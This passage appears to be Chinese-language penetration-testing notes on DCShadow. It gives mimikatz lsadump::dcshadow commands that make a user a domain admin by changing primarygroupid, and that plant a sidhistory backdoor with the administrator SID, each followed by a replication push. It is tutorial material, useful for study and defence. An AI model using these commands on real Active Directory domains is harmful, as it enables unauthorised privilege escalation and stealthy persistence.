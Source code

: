 ![image-20201126190906851](/assets/img/image-20201126190906851.png)



## DCShadow执行权限

上面的例子是直接用了域控管理员账号，这里讲了执行DCShadow所需的最小权限

http://www.labofapenetrationtester.com/2018/04/dcshadow.html



## 利用

### 添加域管

```

lsadump::dcshadow /object:CN=dc,CN=Users,DC=pingpig,DC=com /attribute:primarygroupid/value:512
 
执行域复制：
 
lsadump::dcshadow /push
```



### 添加sidhistory后门

```
// sid为域管administartor的sid
lsadump::dcshadow /object:CN=dc,CN=Users,DC=pingpig,DC=com /attribute:sidhistory /value:S-1-5-21-1900941692-2128706383-2830697502-500
 
执行域复制：

lsadump::dcshadow /push
```
